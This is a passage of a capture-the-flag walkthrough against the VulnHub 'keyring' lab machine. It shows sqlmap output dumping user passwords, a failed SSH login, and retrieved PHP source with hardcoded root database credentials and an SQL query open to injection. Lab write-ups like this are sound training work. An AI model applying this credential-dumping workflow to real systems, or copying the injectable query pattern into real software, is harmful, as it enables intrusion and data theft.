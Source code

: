 ```shellscript
[4 entries]
+--------+-----------------------+
| name   | password              |
+--------+-----------------------+
| abdou  | abdou                 |
| admin  | myadmin#p4szw0r4d     |
| john   | Sup3r$S3cr3t$PasSW0RD |
| test   | test                  |
+--------+-----------------------+
# ... (truncated sqlmap output) ...
```

I successfully extracted the following credentials:

- `abdou:abdou`
- `admin:myadmin#p4szw0r4d`
- `john:Sup3r$S3cr3t$PasSW0RD`
- `test:test`


### 4. Initial Foothold

With the discovered credentials, I attempted to SSH into the target machine using the `john` user, as it had a strong-looking password.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ ssh john@192.168.1.37
The authenticity of host '192.168.1.37 (192.168.1.37)' can't be established.
ED25519 key fingerprint is SHA256:9F8H2qpKYJim3wdRC0XiJaF8aTlTnjZGFW/KgrBtHjc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.37' (ED25519) to the list of known hosts.
john@192.168.1.37: Permission denied (publickey).
```

The SSH login failed due to `Permission denied (publickey)`, indicating that password authentication might be disabled or not the primary method.

Recalling the `log` table entry from `sqlmap` that pointed to a GitHub repository (`https://github.com/cyberbot75/keyring`), I decided to inspect the `control.php` file from that repository.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ curl https://github.com/cyberbot75/keyring/blob/main/html/control.php
# ... (truncated HTML output) ...
<php
session_start();
if(isset($_SESSION['name']))
{
	$servername = "localhost";
	$username = "root";
	$password = "sqluserrootpassw0r4";
	$database = "users";

	$conn = mysqli_connect($servername, $username, $password, $database);
	$name = $_SESSION['name'];
	$date =  date('Y-m-d H:i:s');
	echo "HTTP Parameter Pollution or HPP in short is a vulnerability that occurs<br>due to passing of multiple parameters having same name";
		$sql = "insert into log (name , page_visited , date_time) values ('$name','control','$date')";

		if(mysqli_query($conn,$sql))
			{
			echo "<br><br>";
			echo "Date & Time : ".$date;
```
